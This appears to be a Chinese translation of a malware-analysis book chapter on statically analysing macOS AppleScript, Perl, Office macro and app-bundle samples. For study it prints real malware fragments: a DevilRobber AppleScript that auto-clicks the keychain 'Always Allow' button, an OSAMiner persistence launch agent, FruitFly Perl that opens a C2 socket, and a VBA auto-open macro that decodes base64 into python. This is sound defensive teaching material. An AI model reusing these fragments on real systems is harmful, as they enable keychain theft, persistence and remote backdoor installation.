简而言之，这段 AppleScript 调用了一个`is_Chrome_running`函数，通过向操作系统询问进程列表中是否包含`"Google Chrome"`来检查 Google Chrome 是否正在运行。如果是，脚本会获取当前标签页的 HTML 代码，并检查是否存在注入标记：`493024ui5o`。如果没有找到这个标记，脚本就会注入并执行两段 JavaScript 代码。通过我们的分析，可以确定这段 AppleScript 注入的 JavaScript 的最终目标是从*https://1049434604.rsc.cdn77.org/*加载并执行另一个恶意的 JavaScript 文件*ij1.min.js*，在用户的浏览器中运行。不幸的是，由于在分析时该 URL 已下线，我们无法确切知道该脚本会做什么，尽管像这样的恶意软件通常会在用户的浏览器会话中注入广告或弹窗，以便为其作者创造收入。当然，注入的 JavaScript 也可能执行更恶意的操作，比如捕获密码或借助已认证用户的会话进行攻击。

一个相当古老的 Mac 恶意软件示例是利用 AppleScript 的 DevilRobber。^(11)虽然这个恶意软件主要集中在窃取比特币和挖掘加密货币，但它也瞄准了用户的钥匙串，试图提取账户、密码和其他敏感信息。为了访问钥匙串，DevilRobber 必须绕过钥匙串访问提示，它通过 AppleScript 实现了这一点。

具体而言，DevilRobber 通过 macOS 内置的`osascript`工具执行了一个名为*kcd.scpt*的恶意 AppleScript 文件。这个脚本发送了一个合成鼠标点击事件到钥匙串访问提示的“始终允许”按钮，从而允许恶意软件访问钥匙串中的内容（图 4-9）。


图 4-9：通过 AppleScript（DevilRobber）进行的合成鼠标点击

用于执行这个合成鼠标点击的 AppleScript 非常简单；它只是告诉`SecurityAgent`进程（该进程拥有钥匙串访问窗口）点击“始终允许”按钮（Listing 4-19）：

```
...
tell window 1 of process "SecurityAgent" 
     click button "Always Allow" of group 1
end tell
```

Listing 4-19：通过 AppleScript（DevilRobber）进行的合成鼠标点击

AppleScript 语法的可读性，再加上 Apple 的脚本编辑器解析并常常能反编译此类脚本的能力，使得恶意 AppleScript 的分析变得相当简单。从攻击者的角度来看，AppleScript 极高的可读性是一个相当大的负面因素，因为这意味着恶意软件分析师可以轻松理解任何恶意脚本。如前所述，攻击者可以将 AppleScript 导出为仅运行模式（图 4-10）。不幸的是，脚本编辑器无法反编译通过仅运行选项导出的 AppleScript（或通过 `osacompile` 命令与 `-x` 选项），这使得某些分析变得复杂。



图 4-10：生成仅运行的 AppleScript

仅运行的 AppleScript 文件无法被人类阅读，也不能通过 `osadecompile` 反编译。如在清单 4-20 中所示，尝试反编译仅运行的脚本会导致 `errOSASourceNotAvailable` 错误：

```
% **file helloWorld_RO.scpt** 
helloWorld_RO: AppleScript compiled

% **less helloWorld_RO.scpt**
"helloWorld_RO" may be a binary file.  See it anyway? **Y**

FasdUAS 1.101.10^N^@^@^@^D^O<FF><FF><FF><FE>^@^A^@^B^A<FF><FF>^@^@^A<FF><FE>^@^@^N^@^A^@^@^O^P^@^B^@^C<FF><FD>^@^C^@^D^A<FF><FD>^@^@^P^@^C^@^A<FF><FC>
<FF><FC>^@^X.aevtoappnull^@^@<80>^@^@^@<90>^@****^N^@^D^@^G^P<FF><FB><FF>...

% **osadecompile helloWorld_RO.scpt** 
osadecompile: helloWorld_RO.scpt: errOSASourceNotAvailable (-1756).
```

清单 4-20：通过 `osadecompile` 反编译仅运行的 AppleScript 失败

一个利用仅运行 AppleScript 的 Mac 恶意软件示例是 OSAMiner，Mac 恶意软件研究员 Phil Stokes 在《逆向分析恶意仅运行 AppleScripts 的冒险》中对其进行了详细分析。^(12) 在分析过程中，他提供了一个全面的技术列表，用于分析仅运行的 AppleScript 文件。他的文章指出，OSAMiner 安装了一个启动项，持久化一个 AppleScript。此启动项在清单 4-21 中显示。请注意，`ProgramArguments` 键中的值将指示 macOS 调用 `osascript` 命令执行一个名为 *com.apple.4V.plist* 的 AppleScript 文件 1：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" ...>
<plist version="1.0">
<dict>
  <key>Label</key>
  <string>com.apple.FY9</string>
 <key>Program</key>
  <string>/usr/bin/osascript</string>
 1 <key>ProgramArguments</key> 
  <array>
      <string>osascript</string>
      <string>-e</string>
      <string>do shell script "osascript 
      ~/Library/LaunchAgents/com.apple.4V.plist"</string>
 </array>
 <key>RunAtLoad</key>
 <true/>
 ...
</dict>
</plist>
```

清单 4-21：一个持久化启动项 plist（OSAMiner）

运行 `file` 和 `osadecompile` 命令确认持久化项 *com.apple.4V.plist* 是一个仅运行的 AppleScript，无法通过 macOS 的内置工具进行反编译（清单 4-22）：

```
% **file com.apple.4V.plist** 
com.apple.4V.plist: AppleScript compiled

% **osadecompile com.apple.4V.plist** 
osadecompile: com.apple.4V.plist: errOSASourceNotAvailable (-1756).
```

清单 4-22：通过 `osadecompile` 反编译仅运行的 AppleScript 失败（OSAMiner）

幸运的是，我们可以转向 Jinmo 创建的开源 AppleScript 反汇编器。^(13) 安装该反汇编器后，我们可以反汇编 *com.apple.4V.plist* 文件（清单 4-23）：

```
% **ASDisasm/python disassembler.py OSAMiner/com.apple.4V.plist** 

=== data offset 2 ===
Function name : e
Function arguments:  ['_s']
 ...
 00013 RepeatInCollection <disassembler not implemented> 
 ...
 00016 PushVariable [var_2]
 00017 PushLiteral 4 # <Value type=fixnum value=0x64> 
 00018 Add 

=== data offset 3 ===
Function name : d
Function arguments:  ['_s']
 ...
 00013 RepeatInCollection <disassembler not implemented> 
 ...
 00016 PushVariable [var_2] 
 00017 PushLiteral 4 # <Value type=fixnum value=0x64> 
 00018 Subtract 
```

清单 4-23：通过 AppleScript 反汇编器反编译仅运行的 AppleScript

反汇编器将只能运行的 AppleScript 分解成多个函数（在 AppleScript 术语中称为 *handlers*）。例如，我们可以看到一个名为 `e`（“encode”？）的函数，它在循环中将 0x64 加到某个项上，而 `d`（“decode”？）函数似乎通过减去 0x64 执行反向操作。后者 `d` 在代码的其他地方被多次调用，以解混淆各种字符串。

然而，反汇编的结果仍然有待改进。例如，在代码中的多个地方，反汇编器没有以人类可读的方式充分提取硬编码的字符串。为了弥补这些不足，Stokes 创建了一个名为 `aevt_decompile` 的开源 AppleScript 反编译器。^(14) 这个反编译器的输入是 AppleScript 反汇编器的输出（见清单 4-24）：

```
% **ASDisasm/disassembler.py OSAMiner/com.apple.4V.plist > com.apple.4V.disasm**

% **aevt_decompile ASDisasm/com.apple.4V.disasm**
```

清单 4-24：通过 AppleScript 反汇编器和 `aevt_decompile` 反编译只能运行的 AppleScript

`aevt_decompile` 反编译器生成的输出更有利于分析。例如，它提取了硬编码的字符串并使其可读，同时正确识别并注释了 Apple Event 代码。通过反编译得到的 AppleScript，分析可以继续进行。在他的写作中，Stokes 提到，恶意软件会将嵌入的 AppleScript 写入 *~/Library/k.plist* 并执行它。通过查看反编译的代码，我们可以识别出这一逻辑（见清单 4-25）：

```
% **less com.apple.4V.disasm.out**
...

=== data offset 5 ===
Function name :  'Open Application' 
...

 ;Decoded String "~/Library/k.plist"
 000e0 PushLiteralExtended 36 # <Value type=string value='\x00\x8b\x00\x84...'> 

 ...

 ;<command name="do shell script" code="sysoexec" description="Execute a shell script 
 using the 'sh' shell"> --> in StandardAdditions.sdef
  000e9 MessageSend 37 # <Value type=event_identifier value='syso'-'exec'-...> 1

 ...

 ;Decoded String "osascript ~/Library/k.plist > /dev/null 2> /dev/null & "
  000ee PushLiteralExtended 38 # <Value type=string value='\x00\xd3\x00\xd7...'>] 2
```

清单 4-25：通过 `aevt_decompile` 进一步反编译只能运行的 AppleScript（OSAMiner）

如你所见，代码通过调用 `do shell script` 命令 1 输出嵌入的脚本。然后，它使用 `osascript` 命令执行这个脚本（将任何输出或错误重定向到 `/dev/null`）2。

阅读反编译后的 AppleScript 其余部分可以揭示该 OSAMiner 恶意软件组件的其他功能。有关恶意软件作者如何滥用 AppleScript 的进一步讨论，请参见“AppleScript 如何用于攻击 macOS。”^(15)

### Perl 脚本

在 macOS 恶意软件的世界中，Perl 并不是一种常见的脚本语言。然而，至少有一种臭名昭著的 macOS 恶意软件是用 Perl 编写的：FruitFly。FruitFly 于 2000 年代中期创建，在野外几乎存在了 15 年之久都未被发现。FruitFly 的主要持久组件，通常命名为 *fpsaud*，就是用 Perl 编写的（见清单 4-26）：

```
#!/usr/bin/perl
use strict;use warnings;use IO::Socket;use IPC::Open2;my$l;sub G{die if!defined syswrite$l,$_[0]}sub J{my($U,$A)=('','');while($_[0]>length$U){die if!sysread$l,$A,$_[0]-length$U;$U.=$A;}return$U;}sub O{unpack'V',J 4}sub N{J O}sub H{my$U=N;$U=~s/\\/\//g;$U}subI{my$U=eval{my$C=`$_[0]`;chomp$C;$C};$U=''if!defined$U;$U;}sub K{$_[0]?v1:v0}sub Y{pack'V',$_[0]}sub B{pack'V2',$_[0]/2**32,$_[0]%2**32} ...
```

清单 4-26：混淆的 Perl（FruitFly）

像其他脚本语言一样，使用 Perl 编写的程序通常以脚本形式分发，而不是编译后的形式。因此，分析它们相对直接。然而，在 FruitFly 的情况下，恶意软件作者通过删除代码中的不必要空白、重命名变量和子程序并使用无意义的单个字母名称，试图复杂化分析，这是一种常见的混淆和代码最小化的策略。

利用各种在线 Perl“美化工具”中的任何一个，我们可以重新格式化恶意脚本并生成更易读的代码，如清单 4-27 所示（尽管变量和子程序的名称依然没有意义）：

```
#!/usr/bin/perl
use strict;
use warnings;
use IO::Socket;
use IPC::Open2;
...
1 $l = new IO::Socket::INET(PeerAddr => scalar(reverse $g), 
                          PeerPort => $h, 
                          Proto => 'tcp', 
                          Timeout => 10);

G v1.Y(1143).Y($q ? 128 : 0).Z(($z ? I('scutil --get LocalHostName') : '') || 
2 I('hostname')).Z(I('whoami'));

for (;;) { 
  ...
3 $C = `ps -eAo pid,ppid,nice,user,command 2>/dev/null`
  if (!$C) {
 push@ v, [0, 0, 0, 0, "*** ps failed ***"]
  }
  ...
```

清单 4-27：已美化，尽管仍然有些混淆的 Perl（FruitFly）

美化过的 Perl 脚本仍然不容易阅读，但只需一点耐心，我们就可以推测出恶意软件的全部能力。首先，脚本使用`use`关键字导入了多个 Perl 模块。这些模块提供了脚本正在进行的操作的线索：`IO::Socket`模块表明具有网络功能，而`IPC::Open2`模块则暗示恶意软件与进程交互。

几行后，脚本调用了`IO::Socket::INET`来创建与攻击者远程命令与控制服务器的连接 1。接着，我们可以看到它调用了内置的`scutil`、`hostname`和`whoami`命令 2，这些命令可能是恶意软件用来生成被感染的 macOS 系统基本信息的。

在代码的其他部分，恶意软件调用其他系统命令以提供更多功能。例如，它调用`ps`命令生成进程列表 3。通过关注恶意软件 Perl 代码中调用的命令，这种方法可以提供足够的关于其能力的洞察。要对该威胁进行全面分析，请参阅我的研究论文《进攻性恶意软件分析：剖析 OSX/FruitFly》^(16)。

## Microsoft Office 文档

分析 Windows 恶意软件的研究人员很可能会遇到包含恶意宏的 Microsoft Office 文档。不幸的是，最近机会主义的恶意软件作者也加大了感染针对 Mac 用户的 Office 文档的力度。这些文档可能仅包含特定于 Mac 的宏代码，或者同时包含针对 Windows 和 Mac 的宏代码，使其具备跨平台能力。

我们在第一章中简要讨论了恶意 Office 文档。回想一下，宏为文档提供了动态化的方式，通常通过向 Microsoft Office 文档中添加可执行代码来实现。使用`file`命令，你可以轻松识别 Microsoft Office 文档（清单 4-28）：

```
% **file "U.S. Allies and Rivals Digest Trump's Victory.docm"**
U.S. Allies and Rivals Digest Trump's Victory.docm: Microsoft Word 2007+
```

清单 4-28：使用`file`命令识别 Office 文档

*.docm*扩展名是文件包含宏的一个很好的指示。除此之外，判断宏是否具有恶意性则需要更多的努力。各种工具可以帮助进行这种静态分析。oletools 工具集就是其中最好的之一。^(17) 该工具集是免费的开源软件，包含多种 Python 脚本，用于促进对 Microsoft Office 文档和其他 OLE 文件的分析。

该工具集包括`olevba`实用程序，旨在提取 Office 文档中嵌入的宏。通过 pip 安装 oletools 后，执行`olevba`并加上`-c`标志和宏文件的路径。如果文档中包含宏，它们将被提取并打印到标准输出（清单 4-29）：

```
% **sudo pip3 install -U oletools**
% **olevba -c**`<path/to/document>`

VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin
...
```

列表 4-29：使用`olevba`提取宏

例如，我们来仔细看看一个恶意的 Office 文档，名为*U.S. Allies and Rivals Digest Trump’s Victory.docm*，它在 2016 年美国总统选举后不久被发送给毫无防备的 Mac 用户。首先，我们使用`olevba`来确认文档中是否存在宏，并提取出嵌入的宏（列表 4-30）：

```
% **olevba -c "U.S. Allies and Rivals Digest Trump's Victory.docm"**

VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

1 Sub autoopen()
    Fisher
End Sub

Public Sub Fisher()

    Dim result As Long
    Dim cmd As String
  2 cmd = "ZFhGcHJ2c2dNQlNJeVBmPSdhdGZNelpPcVZMYmNqJwppbXBvcnQgc3"
    cmd = cmd + "NsOwppZiBoYXNhdHRyKHNzbCwgJ19jcmVhdGVfdW52ZXJpZm"
    ...
    result = system("echo ""import sys,base64;exec(base64.b64decode(                    
                   3 \"" " & cmd & " \""));"" | python &")
End Sub
```

列表 4-30：使用`olevba`提取恶意宏

如果你打开一个包含宏的 Office 文档并启用宏，像`AutoOpen`、`AutoExec`或`Document_Open`这样的子程序中的代码将自动运行。如你所见，这个“特朗普胜利”文档包含了其中一个子程序的宏代码 1。宏子程序名称不区分大小写（例如，`AutoOpen`和`autoopen`是等价的）。有关自动调用的子程序的更多详细信息，请参见微软的开发者文档《Word 中 AutoExec 和 AutoOpen 宏行为的描述》。^(18)

在这个例子中，`autoopen`子程序中的代码调用了一个名为`Fisher`的子程序，构建了一个大型的 base64 编码字符串，存储在名为`cmd`的变量中 2，然后调用系统 API 并将该字符串传递给 Python 进行执行 3。解码嵌入的字符串确认它是 Python 代码，这并不令人惊讶，因为宏代码将其交给了 Python。将 Python 代码的各个部分输入搜索引擎，很快就能发现它是一个著名的开源后期利用代理，名为 Empyre。^(19)

现在我们知道恶意宏代码的目标是下载并执行一个功能齐全的交互式后门。在基于宏的攻击中，将控制权交给其他恶意软件是一个常见的主题；毕竟，谁愿意在 VBA 中编写一个完整的后门呢？关于这个宏攻击的详细技术分析，包括指向恶意文档的链接，请参见《新攻击，旧手法：分析一个带有 Mac 特定有效载荷的恶意文档》。^(20)

精密的 APT 组织，如拉撒路集团，也利用恶意 Office 文档。例如，在第一章中，我们分析了一个针对韩国 macOS 用户的宏，并发现它下载并执行了一个二阶段的有效载荷。下载的有效载荷*mt.dat*实际上是被称为 Yort 的恶意软件，一个 Mach-O 二进制文件，具有标准的后门功能。关于此恶意文档及其攻击整体的详细技术分析，请参见我的分析《OSX.Yort》或文章《拉撒路 APT 通过毒化的 Word 文档针对 Mac 用户》。^(21)

## 应用程序

攻击者常常将 Mac 恶意软件打包在恶意应用程序中。应用程序是 Mac 用户熟悉的文件格式，因此用户可能不会多想就运行了它们。此外，由于应用程序与 macOS 紧密集成，双击就足以完全感染 Mac 系统（尽管自 macOS Catalina 以来，公证要求有助于防止某些无意的感染）。

在幕后，应用程序实际上是一个目录，尽管它有一个明确的结构。在苹果的术语中，我们将这个目录称为*应用程序包*。你可以通过在 Finder 中 CTRL 点击应用程序图标并选择**显示包内容**来查看应用程序包的内容（如恶意软件 WindTail）（图 4-11）。

![在 Finder 中选择“显示[WindTail]包内容”后，会打开一个新屏幕，显示 Contents 文件夹中的子文件夹：_CodeSignature、MacOS 和 Resources。MacOS 文件夹包含 USRNODE，一个 Unix 可执行文件。](image_fi/501942c04/f04011_2.png)

图 4-11：查看应用程序包的内容（WindTail）

然而，更全面的方法是利用免费的 Apparency 应用程序，它是专门为静态分析应用程序包而设计的(图 4-12)。^(22) 在其用户界面中，你可以浏览应用程序的组件，从中获取关于包的各个方面的宝贵信息，包括标识符和版本信息、代码签名及其他安全功能，以及关于应用程序主可执行文件和框架的信息。

![在 Apparency 中，突出显示 WindTail 应用程序时，会显示一系列信息，包括其位置、标识符（“com.alis.tre”）、版本（“1.0 [1]”）、Gatekeeper 状态（“无法评估”）、以及签名者（“不受信任的证书”）。点击 WindTail 应用程序会打开一个新窗口，显示其信息属性列表。](image_fi/501942c04/f04012.png)

图 4-12：使用 Apparency 查看应用程序包的内容（WindTail）

然而，正如 Apparency 的用户指南所述，它并不会显示应用程序包中的每一个文件。因此，你可能会发现终端对于查看应用程序包的所有文件非常有用（列表 4-31）：

```
% **find Final_Presentation.app/**
Final_Presentation.app/
Final_Presentation.app/Contents
Final_Presentation.app/Contents/_CodeSignature
Final_Presentation.app/Contents/_CodeSignature/CodeResources

Final_Presentation.app/Contents/MacOS
Final_Presentation.app/Contents/MacOS/usrnode

Final_Presentation.app/Contents/Resources
Final_Presentation.app/Contents/Resources/en.lproj
Final_Presentation.app/Contents/Resources/en.lproj/MainMenu.nib
Final_Presentation.app/Contents/Resources/en.lproj/InfoPlist.strings
Final_Presentation.app/Contents/Resources/en.lproj/Credits.rtf
Final_Presentation.app/Contents/Resources/PPT3.icns

Final_Presentation.app/Contents/Info.plist
```

列表 4-31：使用`find`命令查看应用程序包的内容（WindTail）

标准应用程序包通常包括以下文件和子目录：

+   *Contents/*：包含应用程序包所有文件和子目录的目录。

+   *Contents/_CodeSignature*：如果应用程序已签名，则包含应用程序的代码签名信息（如哈希值）。

+   *Contents/MacOS*：一个包含应用程序二进制文件的目录，用户在界面中双击应用程序图标时会执行该二进制文件。

+   *Contents/Resources*：一个包含应用程序用户界面元素的目录，如图片、文档和描述各种用户界面的*nib/xib*文件。

+   *Contents/Info.plist*：应用程序的主要配置文件。Apple 指出，macOS 使用此文件来获取有关应用程序的相关信息（例如应用程序的主二进制文件的位置）。

请注意，并非所有前述的应用程序包文件和目录都是必需的。尽管不常见，如果在包中找不到*Info.plist*文件，操作系统将假定应用程序的可执行文件位于*Contents/MacOS*目录中，并且其名称与应用程序包匹配。有关应用程序包的全面讨论，请参阅 Apple 的权威开发者文档：“包结构”。^(23)

在静态分析恶意应用程序的过程中，两个最重要的文件是应用程序的*Info.plist*文件和其主可执行文件。正如我们所讨论的，当启动应用程序时，系统会查阅其*Info.plist*属性列表文件（如果存在），因为它包含存储在键值对中的关于应用程序的重要元数据。让我们看一下 WindTail 的*Info.plist*文件片段，突出显示在处理应用程序时特别感兴趣的几个键值对（Listing 4-32）：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>BuildMachineOSBuild</key>
        <string>14B25</string>
        <key>CFBundleDevelopmentRegion</key>
        <string>en</string>
        <key>CFBundleExecutable</key>
        <string>usrnode</string>
        <key>CFBundleIconFile</key>
        <string>PPT3</string>
        <key>CFBundleIdentifier</key>
        <string>com.alis.tre</string>
        <key>CFBundleInfoDictionaryVersion</key>
 <string>6.0</string>
        <key>CFBundleName</key>
        <string>usrnode</string>
        <key>LSMinimumSystemVersion</key>
        <string>10.7</string>
        ...
        <key>NSUIElement</key>
        <string>1</string>
</dict>
</plist>
```

Listing 4-32：*Info.plist*文件（WindTail）

WindTail 的*Info.plist*文件以描述恶意软件编译系统的各种键值对开始。例如，`BuildMachineOSBuild`键的值为`14B25`，这是 OS X Yosemite（10.10.1）的构建编号。接下来，我们会看到`CFBundleExecutable`键，它指定了 macOS 在启动应用程序时需要执行的二进制文件。因此，当 WindTail 启动时，系统会从*Contents/MacOS*目录中执行*usrnode*二进制文件。这个`CFBundleExecutable`键值对通常是必要的，因为应用程序的二进制文件可能与应用程序的名称不匹配，或者*Contents/MacOS*目录中可能包含多个可执行文件。

从分析的角度来看，WindTail 的*Info.plist*文件中的其他键值对不太有趣，除了`NSUIElement`键。这个键在较新的 macOS 版本中被命名为`LSUIElement`，它告诉系统如果设置为 1，则在 Dock 中隐藏应用程序图标。合法的应用程序很少会设置这个键。有关应用程序*Info.plist*文件中键值对的更多信息，请参阅 Apple 的文档：“关于 Info.plist 键和值”。^(24)

虽然你通常会发现应用程序的*Info.plist*文件是以纯文本 XML 格式编写的，因此可以直接在终端或文本编辑器中读取，但 macOS 也支持二进制属性列表（*plist*）格式。Siggen 是一个包含此二进制格式*Info.plist*文件的恶意应用程序的例子（Listing 4-33）：

```
% **file Siggen/WhatsAppService.app/Contents/Info.plist**
Siggen/WhatsAppService.app/Contents/Info.plist: Apple binary property list 
```

Listing 4-33: 使用`file`识别二进制属性列表（Siggen）

要读取这种二进制文件格式，请使用 macOS 的`defaults`命令，并加上`read`命令行标志，如 Listing 4-34 所示：

```
% **defaults read Siggen/WhatsAppService.app/Contents/Info.plist** 
{
    CFBundleDevelopmentRegion = en;
    CFBundleExecutable = Dropbox;
    CFBundleIconFile = "AppIcon.icns";
 CFBundleIdentifier = "inc.dropbox.com";
    CFBundleInfoDictionaryVersion = "6.0";
    CFBundleName = Dropbox;
    CFBundleShortVersionString = "1.0";
    CFBundleVersion = 1;
    LSMinimumSystemVersion = "10.8.0";
    LSUIElement = 1;
    NSAppTransportSecurity = {
        NSAllowsArbitraryLoads = 1;
    };
    NSHumanReadableCopyright = "\\U00a9 2019 Dropbox Inc.";
    NSMainNibFile = MainMenu;
    NSPrincipalClass = NSApplication;
} 
```

Listing 4-34: 使用`defaults`命令读取二进制属性列表（Siggen）

如前所述，应用程序的*Info.plist*中的`CFBundleExecutable`键包含应用程序的主可执行组件的名称。尽管 Siggen 的应用程序名为*WhatsAppService.app*，但其*Info.plist*文件指定在启动该应用程序时应该执行一个名为*Dropbox*的二进制文件。

值得指出的是，除非一个应用程序已经经过公证，否则恶意应用程序的*Info.plist*文件中的其他值可能是具有欺骗性的。例如，Siggen 将其捆绑标识符`CFBundleIdentifier`设置为*inc.dropbox.com*，以伪装成合法的 Dropbox 软件。

一旦你浏览了*Info.plist*文件，你可能会将注意力转向分析`CFBundleExecutable`键中指定的二进制文件。通常情况下，这个二进制文件是 Mach-O 格式，它是 macOS 的本地可执行文件格式。我们将在第五章讨论这种格式。

## 接下来

在本章中，我们介绍了静态分析的概念，并强调了像 macOS 内置的`file`工具和我自己的 WYS 工具，如何识别文件的真实类型。这是一个重要的初步分析步骤，因为许多静态分析工具是特定于文件类型的。然后我们检查了在分析 Mac 恶意软件时常遇到的各种非二进制文件类型。对于每种文件类型，我们讨论了其用途，并突出了你可以用来分析文件格式的静态分析工具。

然而，本章仅关注非二进制文件格式的分析，如分发介质和脚本。虽然许多 Mac 恶意软件样本是脚本，但大多数是编译成 Mach-O 二进制文件。在下一章，我们将讨论这种二进制文件格式，并探索二进制分析工具和技术。

## 结束语
